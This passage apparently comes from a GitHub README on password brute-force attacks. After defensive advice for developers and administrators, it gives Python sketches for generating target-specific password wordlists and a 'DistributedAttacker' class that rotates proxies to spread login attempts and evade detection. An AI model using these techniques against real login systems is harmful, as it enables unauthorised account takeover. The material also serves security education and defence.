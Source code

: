 1. **Secure Coding**: Implement proper authentication controls
2. **Security Testing**: Test applications against common attacks
3. **Monitoring**: Build logging and alerting into applications
4. **User Education**: Help users understand password security

### For System Administrators

1. **Policy Enforcement**: Implement and enforce strong password policies
2. **Monitoring**: Set up systems to detect brute force attacks
3. **Incident Response**: Develop procedures for handling security incidents
4. **User Training**: Educate users about security best practices

---

## 🔧 Advanced Techniques

### Custom Wordlist Generation

```python
# Generate custom wordlists based on target information
def generate_custom_wordlist(company_name, year):
    base_words = [company_name.lower(), str(year)]
    variations = []
    
    for word in base_words:
        variations.extend([
            word,
            word.capitalize(),
            word.upper(),
            word + '123',
            word + '!',
            '123' + word
        ])
    
    return variations
```

### Distributed Attacks

```python
# Example of coordinating multiple attack sources
class DistributedAttacker:
    def __init__(self, target_url, proxy_list):
        self.target_url = target_url
        self.proxies = proxy_list
        self.current_proxy = 0
    
    def get_next_proxy(self):
        proxy = self.proxies[self.current_proxy]
        self.current_proxy = (self.current_proxy + 1) % len(self.proxies)
        return proxy
    
    def attack_with_proxy_rotation(self, credentials):
        for username, password in credentials:
            proxy = self.get_next_proxy()
            # Perform attack using proxy
            self.attempt_login(username, password, proxy)
```
